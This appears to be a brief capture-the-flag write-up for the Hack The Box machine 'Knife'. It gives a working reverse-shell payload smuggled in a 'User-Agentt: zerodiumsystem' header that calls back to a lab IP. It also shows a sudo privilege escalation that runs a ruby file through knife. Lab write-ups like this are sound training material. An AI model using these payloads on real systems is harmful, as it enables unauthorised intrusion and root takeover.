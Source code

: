 # Knife 🧭
Names | Details
--------|-----
Source | HTB
Level     | Medium
Os | Linux

**Notes :**




## Gaining Access 😉

- php version 8 is vulnerable
	- exploit on searchsploit
- manual exploit for tty shell



## Maintaining Access 🥷
- sudo -l
- knife can run ruby files
	- /usr/bin/knife run.rb
- `echo "system('/bin/bash')" > run.rb`
- User james may run the following commands on knife: 
    (root) NOPASSWD: /usr/bin/knife
 if you found this, run with sudo
 


## Important commands 🔥
```
 User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1'");
 ```
	 /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1`
- `echo "system('/bin/bash')" > helo.rb`
- `sudo /usr/bin/knife exec helo.rb`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- always try to have a tty shell
- jailshell has some limitations


--------------------------------
**By Nibras Muhammed** 🤓🖥️






